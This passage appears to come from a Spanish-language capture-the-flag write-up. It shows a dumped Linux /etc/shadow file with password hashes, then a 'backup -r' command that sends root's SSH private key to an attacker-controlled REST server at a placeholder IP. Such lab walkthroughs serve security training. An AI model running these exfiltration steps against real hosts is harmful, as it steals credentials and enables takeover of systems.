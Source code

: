 Info:

```
root:$6$UUrrHE6LTPdhmLil$v9nJaHljuUC0gR5HBAqVWvnDVgYoNYE6EvjIEGNykwadZ8w8gOu212j5bipzK72.nBtx/0h4z4CPki/Ac2f1i1:20015:0:99999:7:::
daemon:*:19430:0:99999:7:::
bin:*:19430:0:99999:7:::
sys:*:19430:0:99999:7:::
sync:*:19430:0:99999:7:::
games:*:19430:0:99999:7:::
man:*:19430:0:99999:7:::
lp:*:19430:0:99999:7:::
mail:*:19430:0:99999:7:::
news:*:19430:0:99999:7:::
uucp:*:19430:0:99999:7:::
proxy:*:19430:0:99999:7:::
www-data:*:19430:0:99999:7:::
backup:*:19430:0:99999:7:::
list:*:19430:0:99999:7:::
irc:*:19430:0:99999:7:::
gnats:*:19430:0:99999:7:::
nobody:*:19430:0:99999:7:::
systemd-network:*:19430:0:99999:7:::
systemd-resolve:*:19430:0:99999:7:::
systemd-timesync:*:19430:0:99999:7:::
messagebus:*:19430:0:99999:7:::
syslog:*:19430:0:99999:7:::
_apt:*:19430:0:99999:7:::
tss:*:19430:0:99999:7:::
uuidd:*:19430:0:99999:7:::
tcpdump:*:19430:0:99999:7:::
landscape:*:19430:0:99999:7:::
pollinate:*:19430:0:99999:7:::
fwupd-refresh:*:19430:0:99999:7:::
usbmux:*:19971:0:99999:7:::
sshd:*:19971:0:99999:7:::
systemd-coredump:!!:19973::::::
gael:$6$ZgkOwXDgoK.yOfv9$7gGQcVFbMepHAPCW.qS/1z87V5p15x4RokWKwNvFXqwo3QLEfFx2GaJs1JqbZ81i/uLy7bJ8TYk4dQYXQpeEC0:20015:0:99999:7:::
lxd:!:19973::::::
app:$6$1CKnP41b8QhfYnAx$b88.zZJfVQ84SBkePAyzIsXdA/w6wvUVq4c2ExOho0RIY8iS43bdJbBPHYdttqqNvBV.H6noc2EFkdBlbb5WL.:20015:0:99999:7:::
mysql:!:19975:0:99999:7:::
_laurel:!:20248::::::
```

Vemos que funciono todo de forma correcta, por lo que podremos exportar archivos, vamos a probar a exportar el archivo de la clave `PEM` del usuario `root` a ver si funciona.

```shell
backup -r "rest:http://<IP>:6666/Shell" /root/.ssh/id_rsa
```

Info:
